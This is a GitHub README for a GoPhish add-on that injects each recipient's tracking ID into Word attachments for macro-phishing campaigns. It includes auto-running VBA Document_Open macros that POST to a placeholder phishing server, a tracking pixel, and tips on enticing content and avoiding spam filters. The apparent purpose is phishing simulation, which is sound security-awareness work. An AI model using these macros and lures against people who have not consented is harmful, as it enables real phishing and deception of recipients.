 # gophish-macro-attachment
Exim transport_filter python script that puts a user's RID value where a macro can see it for macro phishing

# Usage
1. Requires Python 3.6 and [olefile](https://pypi.org/project/olefile/)
2. Install exim (listen on loopback); then add this script's path into `exim.conf` as a `transport_filter` (see [here](https://www.exim.org/exim-html-current/doc/html/spec_html/ch-generic_options_for_transports.html) for more information)
3. Set up a GoPhish sending profile that points at this local Exim instance
4. Create an email attachment & template per the following

## Email template
The email template can be whatever you want, but must include the following exactly somewhere in the body: 

`<!-- RID: {{.RId}} -->`

This is how the script knows the user's RID. It will be removed by the script, so don't worry if you're sending a plain text email.

Next, add an attachment created as follows:

### Type 1 (OLE document format)

N.B.: The drawback to this form is that it does not support "Clicked link" status; you will only know if the user enabled macros.
However, it is simpler and is probably less suspicious (to spam filters, at least). 

1. Create a Word Document and add a macro like the following under ThisDocument: 

```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & Replace(ActiveDocument.BuiltInDocumentProperties("Comments"),".","")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
2. Add whatever enticing content you want to the body. 
3. Save in Word 97-2003 format (.doc)
4. Right click the file in Explorer, choose Properties, click the Details tab
5. Set "Comments" to `{{.RidPlaceholder}}`

### Type 2 (MHT/MHTML format)

This is slightly more complex to create and more suspicious; however, it will show you if the user opened the document without enabling macros.

1. Create a Word Document, save as .MHT (Single file webpage)
2. Add whatever enticing content you'd like to the document.
3. Add a macro like the following under ThisDocument: 
```
Private Sub Document_Open()
  Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
  URL = "http://YourGoPhishServer.com/?rid=" & ActiveDocument.BuiltInDocumentProperties("Author")
  objHTTP.Open "POST", URL, False
  objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
  objHTTP.send("")
End Sub
```
4. Save
5. Open the .MHT file in Notepad/Notepad++
6. Look for the following lines near the top: 
```
 <o:DocumentProperties>
  <o:Author>John</o:Author>
  <o:LastAuthor>John</o:LastAuthor>
```
7. Replace the "Author" value with `{{.RIDPLACEHOLDER}}` (case-sensitive)
8. Look for the end of the body of the document (e.g. `</body>`)
9. Type the following right before the `</div></body>` portion:
```
<img src=3D"http://YourGoPhishServer/?rid=3D{{.RIDPLACEHOLDER}}" height=3D1 width=3D1/>
```

N.B. The "3D" parts are VERY IMPORTANT to this working properly. It's part of how the document is encoded/escaped. 
I would suggest copying it exactly as shown and just modifying the server URL.

10. Attach this file with the .MHT extension - it will be renamed to .doc by the script.


Have fun!

